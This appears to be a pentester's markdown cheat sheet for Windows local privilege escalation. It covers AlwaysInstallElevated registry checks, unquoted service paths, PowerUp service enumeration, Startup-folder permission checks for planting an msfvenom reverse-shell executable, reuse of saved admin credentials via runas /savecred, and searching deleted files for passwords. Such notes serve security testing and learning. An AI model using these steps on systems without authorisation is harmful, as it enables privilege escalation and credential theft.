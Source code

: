 ```powershell
You can find them using powerup.ps1
```
## AlwaysInstallElevated
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Find using powerup.ps1 OR winPEAS
```
## Unquoted service path
```powershell
#Lets suppose we have this service running
C:\FTPServer\FTP server\filezilla\filezilla.exe
#Notice the space between the 'FTP' and 'server'
#This can be exploited by putting an executable in the path
C:\FTPServer\FTP.exe
#Now after restrating the service our malicious executable will be executed.

#Mitigation -> put quotes.
'C:\FTPServer\FTP server\filezilla\filezilla.exe'
```
**Manually**
```powershell
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v '\"'
```
 **Powerup**
```powershell
#Using PowerUp.ps1
Get-ServiceUnquoted -Verbose
```
## Get Services where the current user can write to its binary path or change arguments in the binary
```powershell
#Using PowerUp.ps1
Get-ModifiableServiceFile -Verbose
```
## Get services whose configuration current user can modify
```powershell
#Using PowerUp.ps1
Get-ModifiableService -Verbose
```
## Startup Apps
```powershell
#Have to do manually and looking for a 'F' full write read access to inject an msfvenome .exe to get a RevShell.
#icalcs is tool used to check permissions or delete or modify  
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
## Finding Saved Creds
```powershell
cmdkey /list
#If Admin creds are saved then run
runas.exe /savecred /user:administrator cmd
```
## Deleted Files
- Search Recycle bin for files that contain or may contain passwords such like **unattend.xml**